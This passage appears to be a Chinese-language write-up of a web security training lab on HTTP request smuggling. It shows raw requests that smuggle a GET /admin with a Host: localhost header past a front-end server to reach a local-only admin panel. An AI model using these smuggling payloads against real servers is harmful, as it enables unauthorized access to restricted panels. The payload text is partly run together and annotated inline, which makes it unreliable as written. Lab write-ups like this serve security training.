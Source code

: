 只有本地用户可以访问该面板

现在我们知道是什么导致了 401。

我们通常可以通过添加一个带有 localhost 值 init 的主机头来绕过它。

`HOST: localhost`

![](img/f738930b0b6acb7af8f5d22169ad19d0.png)

服务器检测到两个主机标头，并拒绝第二个请求。

```
GET /admin HTTP/1.1 
**Host: localhost ===> 2 host headers are cusing problem**
X-Ignore: X
POST / HTTP/1.1 
**Host: YOUR-LAB-ID.web-security-academy.net** 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 54 
Transfer-Encoding: chunked
```

现在，我们需要将我们的走私请求作为一个单独的请求，而不是将其与我们的第二个请求合并。

我们可以通过添加一个新行和一个参数来做到这一点，这样第二个请求将被附加到被发送的请求的正文中。

像这样

```
Headers
GET /admin HTTP/1.1 
**Host: localhost ===> 2 host headers are cusing problem**x=POST / HTTP/1.1 Host: YOUR-LAB-ID.web-security-academy.net Content-Type: application/x-www-form-urlencoded 
Content-Length: 54 
Transfer-Encoding: chunked
```
